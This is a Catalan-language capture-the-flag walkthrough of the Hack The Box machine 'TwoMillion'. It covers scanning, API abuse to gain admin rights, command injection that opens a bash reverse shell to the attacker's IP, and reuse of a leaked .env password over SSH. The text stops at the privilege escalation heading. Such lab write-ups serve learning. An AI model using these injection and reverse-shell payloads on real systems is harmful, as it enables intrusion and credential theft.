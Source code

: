 <p align="center">
  <img src="https://github.com/user-attachments/assets/67d6ce83-549a-4d19-bf3f-9e20ff2fb6bb" alt="twomillion-htb-header" width="700" height="500">
</p>

---
## NMAP Scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
> nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.11.221

Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
           Raw packets sent: 65562 (2.885MB) | Rcvd: 65562 (2.622MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
> nmap -sCV -p22,80 -Pn 10.10.11.221

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.88 seconds
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Jammy. D'altra banda, sabem que s'està aplicant _Virtual Hosting_ i, per tant, s'ha d'afegir el domini 2million.htb a l'arxiu /etc/hosts per a que resolgui a la IP que pertoca.

## Web enumeration

````bash
> wfuzz -c -t 20 --hc=401,301 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://2million.htb/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://2million.htb/FUZZ
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                          
=====================================================================

000000039:   200        80 L     232 W      3704 Ch     "login"                                                                                                                                          
000000024:   302        0 L      0 W        0 Ch        "home"                                                                                                                                           
000000051:   200        94 L     293 W      4527 Ch     "register"                                                                                                                                       
000001012:   401        0 L      0 W        0 Ch        "api"                                                                                                                                            
000001211:   302        0 L      0 W        0 Ch        "logout"                                                                                                                                         
000001545:   200        45 L     152 W      1674 Ch     "404"                                                                                                                                            
000007259:   200        45 L     152 W      1674 Ch     "0404"                                                                                                                                           
000007922:   200        96 L     285 W      3859 Ch     "invite" 
````
Els directoris que ens interessen són: _login_, _register_, _invite_ i _api_. De moment, no es pot fer res a cap d'aquests, ja que no disposem de credencials vàlides ni de codi d'invitació. Tanmateix, mirant el codi de la pàgina _/invite_ es veu un script de verificació del codi introduït que crida a l'endpoint de l'API _/api/v1/invite/verify_.
````javascript
        $(document).ready(function() {
            $('#verifyForm').submit(function(e) {
                e.preventDefault();

                var code = $('#code').val();
                var formData = { "code": code };

                $.ajax({
                    type: "POST",
                    dataType: "json",
                    data: formData,
                    url: '/api/v1/invite/verify',
                    success: function(response) {
                        if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                            // Store the invite code in localStorage
                            localStorage.setItem('inviteCode', code);

                            window.location.href = '/register';
                        } else {
                            alert("Invalid invite code. Please try again.");
                        }
                    },
                    error: function(response) {
                        alert("An error occurred. Please try again.");
                    }
                });
            });
        });
````
També es veu que executa un fitxer de JavaScript a la ruta _/js/inviteapi.min.js_, en el qual, a banda de l'endpoint _verify_, trobem un altre per generar un codi: _generate_. Per tant, es dedueix que per generar un codi hem de fer una petició a l'endpoint _/api/v1/invite/generate_. Tanmateix, una petició per GET retorna un codi d'error 405 dient que el mètode no està permès però provant la mateixa petició amb el mètode POST retorna un codi d'invitació en format base64.

![image](https://github.com/user-attachments/assets/66679475-d9e7-4814-bb84-b55a26a5eb52)

````bash
> echo "VVpXQ0ctWlBGVjQtTTI5Q1YtWUVRRjQ=" | base64 -d
UZWCG-ZPFV4-M29CV-YEQF4
````
I ja ens podem registrar :)

## Initial Foothold
Amb la sessió ja iniciada, una petició a la ruta _/api/v1_ retorna una descripció de totes les opcions de l'API i els mètodes que permet cadascuna.

![image](https://github.com/user-attachments/assets/8f03fde9-6a35-4fc3-bc35-0067bf07b33f)

Una d'aquestes és _/api/v1/admin/settings/update_, que mitjançant el mètode PUT permet actualitzar les dades d'un usuari, inclús si és administrador o no. Jugant amb les respostes que dóna cada petició, s'arriba a una petició final que permet convertir-nos en administrador.

![image](https://github.com/user-attachments/assets/dd5222fc-b315-4f4c-b39e-7ea8131c42e3)

I ara, si llancem una petició GET a _/api/v1/admin/auth_, veurem que som administradors.

![image](https://github.com/user-attachments/assets/519fa0c0-fed6-4a81-a761-639a71d25e8a)

Una altra opció de l'API és generar una VPN per a qualsevol usuari, a través de peticions POST. Com és un host Linux, es pot suposar que per darrere hi ha una execució de comandes a nivell de sistema per generar la VPN, així que es pot dur a terme una injecció de comandes si l'input no està sanititzat, de la següent forma:
````php
<?php sytem($_GET['VPN command ;command injection']); ?>
````
Així doncs, provem de ficar-nos en escolta per la interfície _tun0_ per rebre possibles traces ICMP i de fer un ping a la nostra màquina atacant per veure si aconseguim establir una connexió.
![image](https://github.com/user-attachments/assets/a4efc331-93da-4b3e-8527-b5ec2e403c00)
````bash
> sudo tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:30:56.547888 IP 2million.htb > 10.10.16.68: ICMP echo request, id 3, seq 1, length 64
13:30:56.547905 IP 10.10.16.68 > 2million.htb: ICMP echo reply, id 3, seq 1, length 64
````
I com veiem que hem rebut la traça de tornada, podem establir una reverse shell.

**- Atacant:** nc -lvnp 4321

**- POST data:** { "username":"admin;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.68/4321 0>&1'" }

![image](https://github.com/user-attachments/assets/5f5a966c-d81e-4de9-bc2e-cfd0c2e9a998)

Hem aconseguit una reverse shell com l'usuari _www-data_.

## User

Només hi ha 3 usuaris que poguem accedir al host: _root_, _www-data_ i _admin_. Per aconseguir la flag d'usuari, hem de poder convertir-nos en l'usuari admin.
````bash
> cat /etc/passwd | grep 'sh$'

root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
````
En el directori on hi ha allotjada la web hi ha un arxiu ocult .env que té les credencials de la base de dades per l'usuari _admin_. Podem intentar autenticar-nos per SSH (per comoditat, ja que tindrem una consola amb millor experiència d'usuari) utilitzant aquestes credencials, per comprovar si hi ha hagut reutilització de contrasenyes.
````bash
> cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
````

I podem veure que sí que n'hi ha hagut.

![image](https://github.com/user-attachments/assets/fdea7bda-92d8-4fb7-87b4-f358cb8392ec)


## Privilege escalation
